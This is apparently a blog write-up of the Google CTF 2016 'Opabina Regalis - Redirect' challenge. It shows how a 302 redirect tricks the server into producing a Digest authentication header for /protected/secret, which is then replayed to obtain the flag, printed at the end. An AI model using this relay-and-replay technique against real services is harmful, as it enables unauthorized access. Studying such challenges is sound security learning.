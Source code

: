 ```yaml
---
layout: post
title: Google CTF 2016 - Opabina Regalis - Redirect
---
```

> Following on from Opabina Regalis - Token Fetch, can you get access to the
> ``/protected/secret`` URI?
>
> Listening on port 13001 on
> ``ssl-added-and-removed-here.ctfcompetition.com``.

This challenge also uses protocol buffers. We're using full duplex sockets to
act as both a client and a server on the same connection. When we first connect,
we are sent a request to ``/protected/not-secret``. The goal is to get the
server to send us an authenticated request to ``/protected/secret``, so that we
can send an identical request right back and get an authenticated response.

Initial request from server:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

The hash used in Digest auth includes the request URI. If the server gives us a
hash for ``/protected/not-secret``, it won't authorize us to
``/protected/secret``. We'll respond with a 302 redirect response. The server
will make another request, this time for ``/protected/secret``.

{% highlight http %}
GET /protected/secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

Now we make our own request to ``/protected/secret`` to get the WWW-Authenticate
challenge header.

{% highlight http %}
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Digest realm="In the realm of hackers",qop="auth",nonce="b75493fdbd1f8f81",opaque="b75493fdbd1f8f81"
{% endhighlight %}

Send this exact response at the server (responding to its ``/protected/secret``)
and we should have a valid Authorization header.

{% highlight http %}
GET /protected/secret HTTP/1.1
User-Agent: opabina-regalis.go
Authorization: Digest username="google.ctf",realm="In the realm of hackers",nonce="b75493fdbd1f8f81",uri="/protected/secret",qop="auth",nc=a26312,cnonce="78cd3f62f0ae784e",response="d90872a589d396b0f3fc233c229c8d3b",opaque="b75493fdbd1f8f81"
{% endhighlight %}

Send the exact same request back at the server, and it will auth us.

{% highlight http %}
HTTP/1.1 200 OK
Server: opabina-regalis.go

CTF{Why,do,fungi,have,to,pay,double,bus,fares----because,they,take,up,7oo,Mushroom}
{% endhighlight %}
